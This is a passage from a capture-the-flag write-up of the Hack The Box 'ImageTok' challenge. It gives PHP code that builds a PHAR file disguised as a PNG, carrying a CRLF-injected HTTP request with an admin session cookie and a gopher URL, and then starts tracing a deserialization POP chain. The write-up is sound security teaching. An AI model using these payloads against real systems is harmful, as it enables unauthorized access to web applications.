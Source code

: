 ```php
            "uri" => "http://localhost:80/proxy",
            "user_agent" => "clrf-inject\\r\\n\\r\\n\\r\\n\\r\\n".
                "POST /proxy HTTP/1.1\\r\\n".
                "Host: admin.imagetok.htb\\r\\n".
                "Connection: close\\r\\n".
                "Cookie: PHPSESSID=ADMIN_SESSION;\\r\\n".
                "Content-Type: application/x-www-form-urlencoded\\r\\n".
                "Content-Length: CONTENT_LENGTH\\r\\n\\r\\n".
                "url=GOPHER_URL".
                "\\r\\n\\r\\n\\r\\n"
        ));
    }
}
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFile('IMAGE_FILE', 'IMAGE_FILE');
$phar->setStub(file_get_contents('IMAGE_FILE') . ' __HALT_COMPILER(); ?>');
$phar->setMetadata(new ImageModel('none'));
$phar->stopBuffering();
```

Running this code will create the `file.phar` file, which can be renamed to `file.png` and uploaded to the server instead of the PNG file. Of course, this is not a valid and viewable photo. But it bypasses all server side conditions. It is also a PHAR file that can be used for Deserialization on its Meta Data.

### Attack against Deserialization
To perform this attack we need to find a suitable **POP Chain (Property Oriented Programming)** in the server side program. Given that in PHP, the starting point in the POP Chain is one of the Magic Methods `__destruct` or `__awake`, we looked for these functions in the server-side code and found only one. The `__destruct` function in `ImageModel` class is the only starting point for an attack.
```php
public function __destruct()
{
    if (!empty($this->file)) {
        $file_name = $this->file->getFileName();
        if (is_null($file_name)) {
            $error = 'Something went wrong. Please try again later.';
            header('Location: /?error=' . urlencode($error));
            exit;
        }
    }
}
```

This function uses the `file` attribute. This attribute is an `FileModel` object in the nomal execution process. The `getFileName` function is called here. But this function does not do a dangerous job in `FileModel` class. As a result, we need to look for another object for the `file` attribute.

### __call Magic Method


[Writeup ImageTok Challenge in HackTheBox - Unk9vvN](https://unk9vvn.com/2021/03/writeup-imagetok-challenge-in-hackthebox/?lang=en)

